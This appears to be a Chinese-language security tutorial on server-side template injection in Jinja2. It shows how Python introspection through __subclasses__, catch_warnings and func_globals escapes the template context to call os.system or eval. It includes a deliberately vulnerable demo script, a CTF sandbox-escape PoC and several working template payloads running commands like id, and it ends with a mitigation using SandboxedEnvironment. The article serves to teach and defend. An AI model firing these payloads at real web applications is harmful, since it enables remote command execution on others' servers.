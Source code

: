 # 利用 Python 特性在 Jinja2 模板中执行任意代码

0x00 简介
=====

本文源于老外[@nvisium](https://twitter.com/nvisium)在其博客发表的博文[《Injecting Flask》](https://nvisium.com/blog/2015/12/07/injecting-flask/)，在原文中作者讲解了 Python 模板引擎[Jinja2](http://jinja.pocoo.org/)在服务端模板注入 (SSTI) 中的具体利用方法，在能够控制模板内容时利用环境变量中已注册的用户自定义函数进行恶意调用或利用渲染进行 XSS 等。

对于 Jinja2 模板引擎是否能够在 SSTI 的情况下直接执行命令原文并没有做出说明，并且在 Jinja2 官方文档中也有说明，模板中并不能够直接执行任意 Python 代码，这样看来在 Jinja2 中直接控制模板内容来执行 Python 代码或者命令似乎不太可能。

0x01 模板中复杂的代码执行方式
=====

最近在进行项目开发时无意中注意到 Jinja2 模板中可以访问一些 Python 内置变量，如`[]``{}`等，并且能够使用 Python 变量类型中的一些函数，示例代码一如下：

```
# coding: utf-8
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
print template.render()

```

为了方便演示，这里直接将命令参数输入拼接为模板内容的一部分并进行渲染输出，这里我们直接输入`{{ 'abcd' }}`使模板直接渲染字符串变量：

![](http://drops.javaweb.org/uploads/images/189b9c98f3a7574af4185dc9128e150e3b21deed.jpg)

当然上面说了可以在模板中直接调用变量实例的函数，如字符串变量中的`upper()`函数将其字符串转换为全大写形式：

![](http://drops.javaweb.org/uploads/images/f84ff357dbde48900671426c281c9154f7855c1e.jpg)

那么如何在 Jinja2 的模板中执行 Python 代码呢？如官方的说法是需要在模板环境中注册函数才能在模板中进行调用，例如想要在模板中直接调用内置模块`os`，即需要在模板环境中对其注册，示例代码二如下：

```
# coding: utf-8
import os
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
template.globals['os'] = os

print template.render()

```

执行代码，并传入参数`{{ os.popen('echo Hello RCE').read() }}`，因为在模板环境中已经注册了`os`变量为 Python`os`模块，所以可以直接调用模块函数来执行系统命令，这里执行额系统命令为`echo Hello Command Exection`：

![](http://drops.javaweb.org/uploads/images/e1aff19ac21be11e7d05daa76b908223fa675d2a.jpg)

如果使用示例代码一来执行，会得到`os`未定义的异常错误：

![](http://drops.javaweb.org/uploads/images/7cdc456d00f6f1930266a2d0e1035c23b3a3511d.jpg)

0x02 利用 Python 特性直接执行任意代码
=====

那么，如何在未注册`os`模块的情况下在模板中调用`popen()`函数执行系统命令呢？前面已经说了，在 Jinja2 中模板能够访问 Python 中的内置变量并且可以调用对应变量类型下的方法，这一特点让我联想到了常见的 Python 沙盒环境逃逸方法，如 2014CSAW-CTF 中的一道 Python 沙盒绕过题目，环境代码如下：

```
#!/usr/bin/env python 
from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [  
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()  
targets.remove('raw_input')  
targets.remove('print')  
for x in targets:  
    del __builtins__.__dict__[x]

while 1:  
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data

```

（利用 Python 特性绕过沙盒限制的详细讲解请参考[Writeup](https://hexplo.it/escaping-the-csawctf-python-sandbox/)），这里给出笔者改进后的 PoC：

```
[c 1="c" 2="in" 3="[" language="for"][/c].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('echo Hello SandBox')

```

![](http://drops.javaweb.org/uploads/images/2bf5149aff34597eec7d75b54f6dc68f6d778d5d.jpg)

当然通过这种方式不仅仅能够通过`os`模块来执行系统命令，还能进行文件读写等操作，具体的代码请自行构造。

回到如何在 Jinja2 模板中直接执行代码的问题上，因为模板中能够访问 Python 内置的变量和变量方法，并且还能通过 Jinja2 的模板语法去遍历变量，因此可以构造出如下模板 Payload 来达到和上面 PoC 一样的效果：

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{ c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
{% endif %}
{% endfor %}

```

使用该 Payload 作为示例代码二的执行参数，最终会执行系统命令`id`：

![](http://drops.javaweb.org/uploads/images/0053a807c5205d989642abbb63b591838ded7910.jpg)

当然除了遍历找到`os`模块外，还能直接找回`eval`函数并进行调用，这样就能够调用复杂的 Python 代码。

原始的 Python PoC 代码如下：

```
[a for a in [b for b in [c 1="c" 2="in" 3="[" language="for"][/c].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals.values() if type(b) == dict] if 'eval' in a.keys()][0]['eval']('__import__("os").popen("whoami").read()')

```

在 Jinja2 中模板 Payload 如下：

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.func_globals.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

```

使用该 Payload 作为示例代码二的执行参数（注意引号转义），成功执行会使用`eval()`函数动态载入`os`模块并执行命令：

![](http://drops.javaweb.org/uploads/images/0623ba104a4dcb0856bebf5758c42ade09109a7b.jpg)

0x03 利用途径和防御方法
=====

SSTI（服务端模板注入）。通过 SSTI 控制 Web 应用渲染模板（基于 Jinja2）内容，可以轻易的进行远程代码（命令）执行。当然了，一切的前提都是模板内容可控，虽然这种场景并不常见，但难免会有程序员疏忽会有特殊的需求会让用户控制模板的一些内容。

在 Jinja2 模板中防止利用 Python 特性执行任意代码，可以使用 Jinja2 自带的沙盒环境`jinja2.sandbox.SandboxedEnvironment`，Jinja2 默认沙盒环境在解析模板内容时会检查所操作的变量属性，对于未注册的变量属性访问都会抛出错误。

![](http://drops.javaweb.org/uploads/images/e959fbd269e90501a416357afa2da773583c33de.jpg)

0x04 参考
=====

*   [https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
*   [https://nvisium.com/blog/2015/12/07/injecting-flask/](https://nvisium.com/blog/2015/12/07/injecting-flask/)
*   [https://hexplo.it/escaping-the-csawctf-python-sandbox/](https://hexplo.it/escaping-the-csawctf-python-sandbox/)